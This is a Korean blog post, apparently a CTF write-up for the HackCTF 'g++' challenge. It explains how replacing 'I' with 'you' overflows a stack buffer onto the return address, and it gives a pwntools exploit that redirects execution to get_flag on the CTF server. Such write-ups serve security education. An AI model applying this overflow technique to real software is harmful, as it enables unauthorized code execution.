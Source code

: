 ```yaml
---
layout: post
title:  "HacCTF g++ write-up"
date:   2020-01-08 19:45:55
image:  hackctfgpwn.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled.png)

NX 비트가 걸려있는 것을 확인 할 수 있다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%201.png)

프로그램을 실행시키면 다음과 같은 문구가 뜨고 입력할 수 있는 공간이 뜬다

그리고 So, + 입력한 문자열이 나온다. 

코드를 한번 봐보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%202.png)

메인 함수는 별게 없다. Vuln함수를 봐보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%203.png)

vuln 함수는 다음과 같다. c++ 코드로 되어 있는것 같은데 굉장히 복잡해 보인다.

우선 s변수에 fgets로 값을 입력받는다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%204.png)

그리고 get_flag 함수가 있는데 이거를 실행시켜야 플래그를 획득할 수 있을 것같다

흐름을 보쟈면, fgets 함수와  strcpy 함수를 이용하여 bof를 일으키고, get_flag 함수를 실행시키면 될것같다

### 2. 접근방법

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20g/Untitled%205.png)

- 코드를 보면 처음에 입력한 값이 s에 들어가고 그걸 input에 복사한다
- 그다음 v5에 "you", v7에 "I"를 넣고
- replace 함수를 이용하여 v4에 input, v7 변수를 인자로 하여 "I"를 "you"로 변경시킨다

그렇다면, 처음에 fgets는 32바이트 크기만 입력을 받으므로, ret 주소까지의 거리인 ebp-3Ch , 즉 64바이트 크기만큼 입력을 못한다

하지만 replace 함수를 통하여 I 가 you 로 변경되기 때문에 이를 이용하면 될 것이다

정리하면

- ret까지 필요한 크기 : 64byte
- 페이로드 : I * 21 == you * 21 = 63  여기에 + 1byte(아무값)

이렇게 입력하면 될 것이다

### 3. 풀이

최종 익스 코드는 다음과 같다

    from pwn import *
    
    p = remote("ctf.j0n9hyun.xyz",3011)
    
    #p.recvuntil("Tell me something about yourself:")
    #p.recv(34)
    payload = "A"
    payload += "I"*21
    payload += p32(0x08048F0D)
    
    p.sendline(payload)
    
    p.interactive()

recvuntil() 사용하면 중간에 멈추고 진행이 안된다. 이는 서버 오류인듯 싶다

### 4. 몰랐던 개념

c++ 아이다 코드에 익숙해져야겠다